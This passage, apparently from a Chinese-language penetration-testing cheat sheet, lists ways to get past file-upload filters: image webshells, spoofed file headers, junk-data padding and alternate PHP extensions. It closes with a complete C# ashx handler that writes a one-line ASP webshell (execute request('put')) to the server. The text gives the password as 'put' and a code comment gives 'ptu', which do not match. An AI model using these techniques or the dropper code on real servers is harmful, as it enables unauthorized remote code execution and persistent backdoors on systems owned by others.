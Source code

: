 #### 文件内容检测绕过

```
针对文件内容检测的绕过，一般有两种方式，
1.制作图片马
2.文件幻术头绕过

```

#### 垃圾数据填充绕过

```
修改HTTP请求，再之中加入大量垃圾数据。

```

### 黑名单后缀绕过

#### 文件扩展名绕过

```
Php除了可以解析php后缀 还可以解析php2.php3，php4 后缀

```

#### ashx上传绕过

```java
cer,asa,cdx等等无法使用时候。
解析后就会生成一个test.asp的马，你就可以连接这个test.asp  密码为:put
<%@ WebHandler Language="C#" Class="Handler" %>
using System;
using System.Web;
using System.IO;
public class Handler : IHttpHandler {

    public void ProcessRequest (HttpContext context) {
        context.Response.ContentType = "text/plain";

        //这里会在目录下生成一个test.asp的文件
        StreamWriter file1= File.CreateText(context.Server.MapPath("test.asp"));
        //这里是写入一句话木马   密码是：ptu
        file1.Write("<%response.clear:execute request("put"):response.End%>");
        file1.Flush();
        file1.Close();       
    }
    public bool IsReusable {
        get {
            return false;
        }
    }

}

```
